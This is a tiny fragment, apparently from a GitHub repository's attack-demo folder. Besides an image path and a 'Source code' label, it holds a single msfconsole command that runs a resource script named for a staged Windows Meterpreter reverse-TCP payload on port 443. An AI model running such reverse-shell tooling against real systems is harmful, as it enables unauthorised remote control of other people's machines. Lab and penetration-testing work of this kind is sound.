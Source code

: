 msfconsole -q -r '/home/ghost/GitHub/Attacks/DEMO/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
